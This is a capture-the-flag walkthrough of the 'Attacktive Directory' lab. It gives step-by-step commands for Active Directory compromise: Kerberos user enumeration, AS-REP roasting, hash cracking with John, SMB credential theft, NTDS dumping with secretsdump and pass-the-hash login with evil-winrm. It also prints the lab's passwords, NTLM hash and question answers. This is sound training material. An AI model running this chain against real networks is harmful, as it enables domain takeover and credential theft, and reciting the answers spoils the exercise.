

# **Attacktive** Directory

##### Difficulty: [ Medium ]

**Tags:** `Windows`,  `Active Directory`,  `nmap`,  `kerbrute`,  `impacket`,  `john`,  `smb`,  `pass-the-hash`,  `Evil-WinRm`

---

##### Written: 22/11/2021

##### IP address: 10.10.204.177

---

***Tasks 1 and 2 are for setting up of the room.***

---

### TASK 3: Welcome to Attacktive Directory

### [ What tool will allow us to enumerate port 139/445? ]

Let's first conduct an **Nmap** scan on the target machine.

```
sudo nmap -sC -sV -vv -p- -T4 10.10.204.177
```

**Results:**



We can see that port 139 is running **netbios-ssn**. This indicates that there is a Samba server running on the machine, which can be enumerated with **enum4linux**. 

---

### [ What is the NetBIOS-Domain Name of the machine? ]

While **enum4linux** will help us obtain more information about the machine, our nmap scan has already revealed the NetBIOS-Domain Name.


NetBIOS-Domain Name: **spookysec.local**

---

### [ What invalid TLD do people commonly use for their Active Directory Domain? ]

Doing some research online, I found the following website: https://wiki.samba.org/index.php/Active_Directory_Naming_FAQ


An invalid TLD people commonly use for their active directory domain: **.local**.

---

### TASK 4: Enumerating Users via Kerberos 

### [ What command within Kerbrute will allow us to enumerate valid usernames? ]

We first install Kerbrute onto our local machine (https://github.com/ropnop/kerbrute). 

We can then find out the command to enumerate valid usernames using the help menu of Kerbrute.

```
/opt/kerbrute -h
```


Command: **userenum**

---

### [ What notable account is discovered? (These should jump out at you) ]

Before running Kerbrute, we first have to add the **'spookysec.local'** domain to our **/etc/hosts** file.


We then run Kerbrute like so:

```
/opt/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt
```

The `--dc` option is specify the location of the Domain Controller. The `-d` option is to specify the domain name.

**Results:**


Notable account: **svc-admin**

---

### [ What is the other notable account is discovered? (These should jump out at you) ]

Other notable account: **backup**

---

### TASK 5: Abusing Kerberos 

### [ We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password? ]

After installing **impacket** onto our local machine, we can use the **GetNPUsers.py** script located in the **/impacket/examples**.

Let's try it with the svc-admin account first.

```
python3 GetNPUsers.py spookysec.local/svc-admin -no-pass
```

**Results:**


The script worked! This means that the **svc-admin** account does not require pre-authentication, allowing us to obtain a valid kerberos ticket for the account.

If we try running the same script on the **backup** user, we can see that it requires pre-authentication.


User account that we can query a ticket from with no password: **svc-admin**

---

### [ Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name) ]

From the Hashcat Wikipedia: https://hashcat.net/wiki/doku.php?id=example_hashes


Hash type: **Kerberos 5, etype 23, AS-REP**

---

### [ What mode is the hash? ]

The mode is the number that is beside the name of the hash.

Mode: **18200**

---

### [ Now crack the hash with the modified password list provided, what is the user accounts password? ]

Instead of using Hashcat to crack the hash, I decided to use **John the Ripper** instead. I saved the hash into a text file called **hash.txt**.

Then, I ran John with the supplied password wordlist.

```
john --wordlist=passwordlist.txt --format=krb5asrep hash.txt
```

**Results:**


User account's password: **management2005**

---

### TASK 6: Back to the Basics 

### [ What utility can we use to map remote SMB shares? ]

We can use **smbclient** to map remote SMB shares.

---

### [ Which option will list shares? ]

The **man** page for smbclient shows the option that will list shares.


option: **-L**

---

### [ How many remote shares is the server listing? ]

With svc-admin's account, we can use smbclient to find out the shares that svc-admin can access.

```
smbclient -L spookysec.local -U svc-admin
```

**Results:**


From the results, we can see that the server is listing **6** shares.

---

### [ There is one particular share that we have access to that contains a text file. Which share is it? ]

After trying to log into the various shares, I managed to find a text file within the **backup** share.

```
smbclient //spookysec.local/backup -U svc-admin
```


---

### [ What is the content of the file? ]

We can download the **backup_credentials.txt** file onto our local machine using the `get` command.

**Contents:**


---

### [ Decoding the contents of the file, what is the full contents? ]

I realized that the content in backup_credentials.txt is actually **base64 encoded**. We can decode it like so:

```
echo YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw | base64 -d
```

**Results:**


Nice! We've found the credentials for the **backup** account.

---

### TASK 7: Elevating Privileges within the Domain 

### [ What method allowed us to dump NTDS.DIT? ]

Read the help page for **secretsdump.py** (found in /impacket/examples/secretsdump.py):


The method that allows us to dump NTDS.DIT is **DRSUAPI**.

---

### [ What is the Administrators NTLM hash? ]

We can use secretsdump.py like so:

```
python3 /opt/impacket/examples/secretsdump.py -just-dc-user Administrator spookysec.local/backup:backup2517860
```

**Results:**


The NTLM hash is the part that is underlined in red: **0e0363213e37b94221497260b0bcb4fc**

---

### [ What method of attack could allow us to authenticate as the user without the password? ]

Doing some research online, I found out that a possible method of attack is called: **pass the hash**

*A **Pass-the-Hash (PtH) attack** is a technique whereby an attacker captures a password hash (as opposed to the password characters) and then simply passes it through for authentication and potentially lateral access to other networked systems. The threat actor doesn’t need to decrypt the hash to obtain a plain text password.*

More details: https://www.beyondtrust.com/resources/glossary/pass-the-hash-pth-attack

---

### [ Using a tool called Evil-WinRM what option will allow us to use a hash? ]

Download the Evil-WinRM tool from: https://github.com/Hackplayers/evil-winrm

We can look at the help page for evil-winrm to find out the needed option.


Option to use a hash: **-H**

---

### TASK 8: Flag Submission Panel 

### [ svc-admin ]

We can use the hash that we found earlier to log into the **Administrator** account with evil-winrm. evil-winrm will spawn a shell for us, which will allows us to explore the machine.

```
evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```


And we're in!

Since we are in the Administrator account, we have free access into any of the other users' directories. The flag for svc-admin can be found in his desktop.


---

### [ backup ]

The flag for backup can be found in his desktop.


---

### [ Administrator ]

The flag for Administrator can be found in his desktop.


